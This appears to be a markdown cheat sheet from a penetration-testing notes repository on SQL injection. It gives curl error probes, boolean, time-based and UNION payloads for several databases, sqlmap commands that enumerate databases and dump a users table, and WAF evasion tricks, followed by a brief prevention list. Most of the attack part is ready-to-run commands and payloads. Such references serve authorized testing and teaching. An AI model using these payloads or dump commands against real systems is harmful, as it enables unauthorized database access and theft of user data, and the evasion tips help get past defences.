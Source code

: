 # SQL Injection — Full

## 1) Error Probes
```bash
curl -ks "$target/search?q=test'"
curl -ks "$target/search?q=test%27"
```

Common DB error signatures listed in [`errors.md`](errors.md).

## 2) Boolean/Time/UNION
```text
# Boolean
' AND 1=1-- -
' AND 1=2-- -

# Time (MySQL / MSSQL / Postgres)
' AND SLEEP(5)-- -
' WAITFOR DELAY '0:0:5'--
' || pg_sleep(5)--

# UNION column count
... UNION SELECT NULL--
... UNION SELECT NULL,NULL--
... UNION SELECT NULL,NULL,NULL--
```

## 3) Enumeration (manual)
See [`enumeration.md`](enumeration.md) for DB‑specific queries (MySQL/MSSQL/Postgres).

## 4) Automation (sqlmap)
```bash
sqlmap -u "$target/search?q=test" --batch
sqlmap -u "$target/search?q=test" -p q --dbs --batch
sqlmap -u "$target/search?q=test" -p q -D acme -T users --columns --batch
sqlmap -u "$target/search?q=test" -p q -D acme -T users --dump --batch
```

## 5) WAF & Evasion
- Inline comments: `UNION/**/SELECT`
- Case toggling: `SeLeCt`, `UnIoN`
- Spacing tricks: `%0a`, `/**/`
- Function equivalents, hex encoding, concatenation

## 6) Prevention (Dev)
- **Parameterized queries** / prepared statements
- Least‑privilege DB users
- Centralized error handling (no raw SQL errors to clients)
- ORM discipline, input validation

Examples in [`prevention.md`](prevention.md).

